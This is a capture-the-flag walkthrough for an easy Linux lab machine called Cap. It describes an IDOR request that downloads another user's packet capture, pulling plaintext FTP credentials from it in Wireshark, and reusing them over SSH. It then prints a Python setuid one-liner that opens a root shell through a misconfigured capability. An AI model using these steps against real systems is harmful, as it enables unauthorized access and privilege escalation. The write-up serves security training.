


# Cap
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

## Recon
Scan open ports by running `nmap` scan.


The ports 21, 22, and 80 are open.

Open up the address on port 80 for the web application to find the Security Dashboard.


Got to the tab that says Security Snapshot", which should redirect towards `/data/2`. Perform an IDOR attack by going to `/data/0`. Download the pcap file for that user.

Open up `0.pcap` in Wireshark. Scroll down to find packets using FTP and follow its stream to find sensitive information.


Login details
```
Username: nathan
Password: Buck3tH4TF0RM3!
```

Since we saw SSH open from the namp scan, use the login credentials to SSH into nathan's account.


There is a `user.txt` file which contains the flag.

For finding priv esc with root, run `getcap -r / 2>/dev/null` to find files that could be used to esclate privileges.
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`/usr/bin/python3.8` is Python which could be abused with [GTFOBins](https://gtfobins.github.io/gtfobins/python/)

To become root user, run the command: 
```
python3 -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’
```

Go into the `/root` folder and read the `root.txt` file for the flag.
